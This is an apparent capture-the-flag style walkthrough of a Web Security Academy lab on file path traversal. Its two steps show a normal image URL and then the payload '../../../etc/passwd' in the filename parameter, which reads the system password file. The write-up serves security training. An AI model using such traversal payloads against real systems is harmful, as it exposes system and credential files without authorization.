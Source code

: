# File path traversal, simple case

## This lab contains a [file path traversal] vulnerability in the display of product images.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

## https://0a2d002404d34d49cb7e324b008d003a.web-security-academy.net/image?filename=48.jpg

### step2

## https://0a2d002404d34d49cb7e324b008d003a.web-security-academy.net/image?filename=../../../etc/passwd
